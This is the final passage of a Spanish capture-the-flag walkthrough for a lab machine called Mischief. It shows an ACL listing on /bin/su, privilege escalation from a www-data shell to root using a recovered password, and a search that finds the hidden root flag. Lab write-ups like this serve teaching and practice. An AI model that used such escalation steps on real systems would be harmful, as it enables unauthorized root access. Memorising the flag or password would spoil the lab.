 ```bash
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-
mask::r-x
other::r-x
```
Pueden ver que en "user:loki:r--" tiene capacidad de lectura pero no de ejecución, aunque para otros
tienen capacidad lectura y de ejecución.

Volvamos a la shell "www-data" e intentemos escalar los privilegios ahí utilizando el comando "SU" y 
la contraseña "lokipasswordmischieftrickery".

```bash

www-data@Mischief:/$ su
Password: lokipasswordmischieftrickery
root@Mischief:/#

```
Pudimos escalar los privilegios, ahora nos dirigimos al directorio /root para visualizar la segunda flag.

```bash

root@Mischief:~# cat root.txt 
cat root.txt
The flag is not here, get a shell to find it!
root@Mischief:~# 
```
Pero vemos que nos dice que la falg no se encuentra ahí y que debemos encontrarla.

Busquemos archivos que llamen root.txt con find.

```bash

root@Mischief:/# find \-name root.txt 2>/dev/null
./usr/lib/gcc/x86_64-linux-gnu/7/root.txt
./root/root.txt
root@Mischief:/# 

```

Nos muestra una ruta donde podria estar la verdadera flag de root, veamos si se encuentra haciéndole un cat a la ruta del archivo.

```bash

root@Mischief:/# cat ./usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155fad479c56f912c65d7be4487807
root@Mischief:/# 
```
Tenemos la segunda flag.

Espero que se haya entendido.

Gracias por leer :)

